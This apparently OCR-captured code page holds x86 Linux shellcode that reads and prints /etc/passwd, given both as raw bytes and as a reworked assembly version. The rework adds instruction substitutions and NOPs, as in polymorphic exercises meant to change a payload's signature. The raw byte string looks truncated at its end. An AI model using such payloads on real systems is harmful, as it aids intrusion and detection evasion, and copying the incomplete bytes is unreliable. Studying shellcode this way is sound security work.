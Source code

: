 Original shellcode:

	\x31\xC0\x31\xDB\x31\xC9\x31\xD2\xEB\x32\x5B\xB0\x05\x31\xC9\xCD\x80\x89\xC6\xEB\x06\xB0\x01\x31\xDB\xCD\x80\x89\xF3\xB0\x03\x83\xEC\x01\x8D\x0C\x24\xB2\x01\xCD\x80\x31\xDB\x39\xC3\x74\xE6\xB0\x04\xB3\x01\xB2\x01\xCD\x80\x83\xC4\x01\xEB\xDF\xE8\xC9\xFF\xFF\xFF\xEC\xAD

Modified source code (converted to Intel syntax):

```
section .text
	global _start

_start:
        xor     ebx,ebx
        mul     ebx
        cdq
        push    ebx
        pop     ecx
	jmp	two

one:
	pop	ebx
	nop		;useless instruction
	mov	al, 0x5
	xor	ecx, ecx
	int	0x80
	
	mov	edi, eax
	jmp	read

exit:
	mov al, 0x1
	xor	ebx, ebx
	int	0x80

read:
	mov	ebx, edi
	mov al, 0x3
	sub	esp, 0x1
	lea	ecx, [esp]
	nop		;useless instruction
	mov	dl, 0x1
	int	0x80

	xor	ebx, ebx
	cmp	ebx, eax
	je	exit

	push    0x4
        pop     eax
        push    0x1
        pop     ebx
        push    0x1
        pop     edx
	mov	al, 0x4
	mov	bl, 0x1
	mov	dl, 0x1
	int	0x80
	
	add	esp, 0x1
	jmp	read

two:
	call	one
	shell: db	'/etc/passwd'
```